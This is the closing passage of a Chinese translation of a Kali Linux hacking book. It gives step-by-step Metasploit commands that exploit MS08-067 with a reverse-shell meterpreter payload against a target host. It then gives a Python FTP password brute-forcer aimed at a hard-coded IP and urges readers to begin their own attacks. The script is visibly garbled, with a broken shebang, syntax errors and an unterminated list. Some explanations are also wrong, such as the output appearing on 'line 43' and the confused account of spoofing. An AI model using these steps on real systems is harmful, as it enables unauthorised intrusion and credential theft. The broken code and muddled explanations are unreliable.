3. **远程方式获取密码**：如果你发现无法获得目标计算机的物理访问（这对于大多数黑客来说都是事实），则可以通过远程进行收集。
你很可能需要使用欺骗攻击（spoofing attack）来实现这一点，然后利用 `SAM` 文件的漏洞（exploit）。
为了实现这一点，一个很好的工具是 `Metasploit`，它可以帮助我们获取目标信息。
你可以对这些进行操作，让系统认为你是用户。

实现这些所需的代码包括：

1. 打开 `Metasploit` 并输入命令 `msf > use exploit/windows/smb/ms08_067`
2. 进入后，输入命令 `msf(ms08_067) > set payload/meterpreter/reverse_tcp`
3. 在拿到两个 IP 地址后，你需要输入以下命令来利用 IP 地址：
    - `msf(ms08_067) > set RHOST [目标 IP 地址]`
    - `msf(ms08_067) > set LHOST [你的 IP 地址]`
4. 现在是时候输入下面的命令来执行你想做的漏洞利用：
    - `msf(ms08_067) > exploit`
5. 这将为你提供一个终端提示符，让你更容易获得所需的远程访问，从而针对目标计算机并执行你想的操作。

系统会认为你属于那里，因为你有正确的 IP 地址，你可以访问许多不该访问的信息。


为了帮助我们开始工作，我们需要打开 Kali 操作系统，然后确保文本编辑器也已准备就绪。当完成这些设置后，你可以输入以下代码来帮助准备好 FTP 密码破解器：

```python
#!/usribin/python

import socket
import re
import sys

def connect(username, password);
    $ = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print”(*) Trying”+username+”.”+password
    s,connect((‘192.168.1.105’, 21))
    data = s.recv(1024)
    s.send(‘USER’ +username+ Ar\n’)
    data = s.recv(1024)
    s.send(‘PASS’ + password + ‘\r\n’)
    data. s.recv(3)
    s.send(‘QUIT\r\n’)
    s.close()
    return data

username = “NuilByte”
passwords =[“test”, “backup”, “password”, “12345”, “root”, “administrator”, “ftp”, “admin1

for password in passwords:
    attempt = connect(username, password)
    if attempt == “230”:I
        print "[*) Password found:” + password
        sys.exit(0)
```

注意，在此内部，我们导入了一些 Python 模块，即 `socket`、`re` 和 `sys`，然后我们创建了一个 socket，通过端口 `21` 连接到你选择的特定 IP 地址。

然后我们为 `username` 创建了一个变量并将其赋值为 `NullByte`，接着创建了一个名为 `passwords` 的列表。其中包含了一些可能的密码，然后使用循环来尝试所有密码，直到遍历完此列表且没有发现成功为止。

现在，当你学习这部分时，你可能会发现你能够进行一些更改，特别是关于脚本内部的值。你可以第一次尝试这样操作，以获得一些编程及其提供的功能的经验。

但是，当你准备好进行自己的攻击并且对这种工作原理更加熟悉时，进行其中一些更改并让系统按你的预期运行将会变得更容易。

当你已经有机会对上面的代码进行你喜欢的修改，以便你的密码破解器按照你的意愿工作，或者当你只是决定使用上面的代码时，就是时候保存它了。

最好的方法是将其命名为 `ftpcracker.py`，然后赋予自己所有正确的权限以便你运行此破解器。

如果你成功匹配到了某个密码，那么该密码将出现在第 `43` 行。如果你通过所有这些操作都没有匹配到任何密码，那么该行将保持为空。

大多数黑客至少会尝试获取你用于电脑以及你其他重要账户的密码。这是值得的，因为人们通常没有对密码添加适当的保护，而这正是黑客收集他们想要的信息的一种简便方法。

作为一名道德黑客，你也应该在自己的系统上尝试这些方法，看看黑客是否可能收集到关于你的信息。

# 结论

感谢你读完《Kali Linux 黑客攻击》（Hacking with Kali Linux），希望这本书对你有所启发，并能够为你提供实现目标（无论目标为何）所需的所有工具。

下一步是尽快开始你自己的黑客冒险！我们有很多方法从事黑客活动，并且许多可以使用的新方法，即使我们在过程中是以道德黑客的身份工作。而这正是本指南在此过程中向我们展示的内容。

本指南不仅详细介绍了黑客攻击，还介绍了如何使用 Kali Linux 系统进行一些攻击。在过程中有很多很棒的操作系统可以使用，但你会发现这个操作系统是专为黑客攻击而设计的，并拥有许多处理渗透测试及更多功能所需的工具。这就是为什么我们将在本指南中花费时间学习更多关于 Kali Linux 以及它所包含的内容。

除了学习一些 Kali Linux 以及我们在在该操作系统上进行黑客工作时能够做的许多趣事之外，我们还花时间学习如何进行对我们需求至关重要的不同类型的攻击。你将学习更多关于道德黑客基础的知识、如何进行中间人攻击以及更多内容。

即使作为一名道德黑客，我们在黑客攻击方面也有很多有趣的事情可以做，这些技术可以检查你的网络是否会保持安全，或者你是否需要担心有人在未经许可的情况下进入。我们甚至还会使用键盘记录器和截图工具，这样你就可以看到别人在借用你的电脑时在做什么。

多年来，黑客声誉很差，但这并不意味着它是一件坏事。学习如何操作并让它按照你想要的方式运行是非常重要的，而学习黑客攻击可以是保持你自己的系统安全无忧的最佳方法之一。

通过本指南中的一些技术，你很快就能让你的网络安全可靠。当你准备好学习更多关于黑客攻击以及你通过这一过程能做的事情时，请务必查看本指南，获取你想要在该领域取得成功的所有工具、技术和方法。

最后，如果你觉得这本书在任何方面对你有帮助，我们将非常感谢你在 Amazon 上撰留评论！

# Julian James McKinnon 出版书籍：

- [Hacking for Beginners: A Step by Step Guide to Learn How to Hack Websites, Smartphones, Wireless Networks, Work with Social Engineering, Complete a Penetration Test, and Keep Your Computer Safe](https://www.amazon.com/dp/B0822XTVSD)
- [Hacking with Kali Linux: A Step by Step Guide with Tips and Tricks to Help You Become an Expert Hacker, to Create Your Key Logger, to Create a Man in the Middle Attack and Map Out Your Own Attacks](https://www.amazon.com/dp/B0822Y1PVW)
- [Linux for Beginners: a step-by-step guide to learn architecture, installation, configuration, basic functions, command line and all the essentials of Linux, including manipulating and editing files](https://www.amazon.com/dp/B084L5QKZY)
- [C# For Beginners: A Step-by-Step Guide to Learn C#, Microsoft’s Popular Programming Language](https://www.amazon.com/dp/B084P5VPDQ)
- [C++ for Beginners: A Step-by-Step Guide to Learn, in an Easy Way, the Fundamentals of C++ Programming Language with Practical Examples](https://www.amazon.com/dp/B084NVSNTT)
- [SQL For Beginners: A Step-by-Step Guide to Learn SQL (Structured Query Language) from Installation to Database Management and Database Administration](https://www.amazon.com/dp/B084M3FSW6)
- [Python Programming for Beginners: A Step-by-Step Guide to Learn one of the Most Popular and Easy Programming Languages. Learn Basic Python Coding Fast with Examples and Tips](https://www.amazon.com/dp/B084MHS8H9)
- [Data Science with Python: The Ultimate Step-by-Step Guide for Beginners to Learn Python for Data Science](https://www.amazon.com/dp/B084P8ZTZ2)
- [Arduino: Learn how to Create Interactive Electronic Objects, Setting up your Board, Discover how Coding Works, Create your Circuit plus all the essentials of Arduino Programming (For Beginners)](https://www.amazon.com/dp/B084QJS44X)
- [Raspberry Pi: A Step-by-Step Guide for Beginners to Learn all the essentials of Raspberry Pi and create simple Hardware Projects like an Arcade Box or turning your Device Into a Phone](https://www.amazon.com/dp/B084RDVN4H)

